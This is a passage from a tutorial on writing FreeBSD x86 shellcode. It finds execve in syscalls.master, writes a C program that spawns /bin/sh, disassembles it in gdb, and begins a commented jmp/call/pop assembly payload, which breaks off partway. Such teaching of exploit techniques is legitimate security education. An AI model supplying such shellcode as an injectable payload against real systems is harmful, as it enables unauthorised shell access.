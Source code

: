     bash$ grep -i 'execve' syscalls.master
    59 STD POSIX { int execve(char *fname, char **argv, char **envv); }

Now since we are going to be calling execve with no arguments, we only need to know what the first argument is. This is a pointer
to the command we wish to execute. We will still need to keep the other arguments in mind since execve still expects to see them.
So we put this call into C code so we have something with which to figure out the assembly code for it.

    #include 
    int main()
    {
    char *name[2];
    name[0] = "/bin/sh";
    name[1] = 0x0;
    execve(name[0], name, 0x0);
    }

Now compile that as we have shown and then fire up gdb:

    bash$ gdb shell
    (gdb) disas main
    Dump of assembler code for function main:
    0x80484a0
    : push %ebp
    0x80484a1 : mov %esp,%ebp
    0x80484a3 : sub $0x18,%esp
    0x80484a6 : movl $0x8048503,0xfffffff8(%ebp)
    0x80484ad : movl $0x0,0xfffffffc(%ebp)
    0x80484b4 : add $0xfffffffc,%esp
    0x80484b7 : push $0x0
    0x80484b9 : lea 0xfffffff8(%ebp),%eax
    0x80484bc : push %eax
    0x80484bd : mov 0xfffffff8(%ebp),%eax
    0x80484c0 : push %eax
    0x80484c1 : call 0x8048350 
    0x80484c6 : add $0x10,%esp
    0x80484c9 : leave
    0x80484ca : ret
    0x80484cb : nop
    End of assembler dump.

Wow that is alot to look at! 

Since this one is so much longer, I will just skip to the code itself as the explanation should be clearer when you see the code. This is also why I am putting the explanation in the comments of this code.

    ;don't worry why this is here other than that it is required
    ;by ld. Just put it in there.
    section .text
    global _start
    _start:
    ;We do this so that we can get the address of db '/bin/sh' onto the stack
    jmp short _callshell
    _shellcode:
    ;This gets us the address of db '/bin/sh' into esi
    pop esi
    ;ensure there are no values in eax
    xor eax, eax
    ;now that eax is NULL, we will take a byte and put it to the end
    ;of the '/bin/sh' string to terminate it.
    mov byte [esi + 7], al
    ;in freebsd assembly we put all the parameters onto the stack
    ;in reverse order. We are pushing eax twice which is null since we
    ;are not using execve() with parameters. However, this is still required